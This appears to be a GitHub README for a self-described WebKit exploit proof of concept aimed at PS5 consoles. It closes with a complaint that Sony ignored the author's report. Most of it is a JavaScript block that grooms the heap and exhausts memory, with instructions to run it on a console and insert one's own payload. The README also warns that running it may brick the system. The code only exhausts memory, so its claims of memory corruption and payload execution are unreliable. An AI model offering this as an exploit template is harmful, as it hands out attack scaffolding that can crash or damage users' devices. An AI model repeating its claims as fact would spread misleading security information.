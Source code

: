 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Leak PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


**A Message to Sony**


Sony I have reported this and got dismmised and I have provided enough proof it with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 
